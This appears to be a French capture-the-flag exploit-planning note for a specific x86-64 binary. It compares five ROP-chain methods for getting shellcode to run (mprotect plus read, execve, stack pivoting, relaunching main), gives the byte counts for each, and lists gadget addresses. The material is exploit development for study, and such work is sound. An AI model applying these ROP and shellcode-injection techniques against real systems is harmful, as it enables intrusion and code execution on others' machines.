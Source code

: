 Méthode 1
=========

Injection d'un shellcode en faisant un mprotect + read + exec

hash =
0:	b2 07                	mov    dl,0x7
2:	5d                   	pop    rax
3:	c3                   	ret

ropchain =
(gadget mov eax, 10; syscall; ret);
(gadget pop rdi; ret); 0;
(gadget pop rsi; pop r15; ret); 0x601000; 0;
(gadget mov eax, 0; syscall; ret); 0x601000

step 3 = shellcode de 7 bytes

Conclusion: OK, nécessite 8 * 8 octets

Méthode 2
=========

Injection d'un shellcode en faisant un mprotect + read + exec

hash =
pop r15
pop rsi
pop rdx
ret

ropchain =
0x1000;
7;
(gadget mov eax, 10; syscall; ret);
(gadget pop rdi; ret); 0;
(gadget pop rsi, pop rdx, ret); 0x601000; 0xff;
(gadget mov eax, 0; syscall; ret); 0x601000

Conclusion: OK, nécessite 10 * 8 octets

Méthode 3
=========

Injection d'un shellcode faisant un execve

hash =
0:	b0 3b                	mov    al,0x3b
2:	5a                   	pop    rdx
3:	c3                   	ret

ropchain =
(gadget pop rdi; ret) + (0)
...

Conclusion: PAS OK, impossible de faire pointer rdi vers "/bin/bash"

Méthode 4
=========

Injection d'un shellcode en faisant un mprotect + stack pivoting

hash =
0:	b2 07                	mov    dl,0x7
2:	5d                   	pop    rax
3:	c3                   	ret

ropchain (payload) =
(gadget mov eax, 10; syscall; ret);
(gadget pop rsp; ret); 0x601900
0x400bf7 (relancement du main, avec la nouvelle stack)

Ensuite, on peut réinjecter une chaine. On prend une shellcode, de façon a ce que le hash soit
un simple pop; ret
payload = 0x601900 ; shellcode

Conclusion: PAS OK, après {pop rsp}, le {ret} échoue puisqu'il trouve 0 sur la pile

Méthode 5
=========

Injection d'un shellcode faisant mprotect + relance le main avec un grand `rdx`

hash =
58                   	pop    rax
5a                   	pop    rdx
c3                   	ret

ropchain (payload) =
7;
(gadget mov eax, 10; syscall; ret);
(gadget pop rdx, ret); 0xff
0x400bf7 (relancement du main)


Conclusion: OK, nécessite 5 * 8 octets

Gadgets
=======

0x0000000000400c8b: ret; mov eax, 1; syscall;
0x0000000000400c93: ret; mov eax, 0x3c; syscall;
0x0000000000400c9b: ret; mov eax, 0xa; syscall;
0x0000000000400ba3: hlt; pop rbx; pop rbp; pop r12; ret;
0x00000000004008b4: xor dword ptr [rcx + 1], eax; ret;
0x0000000000400ba7: pop rsp; ret;
0x00000000004008ea: pop rdi; ret;
0x00000000004008e8: pop rsi; pop r15; ret;
0x00000000004008e2: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000400b9e: add dword ptr [rax + 0x39], ecx; ret;
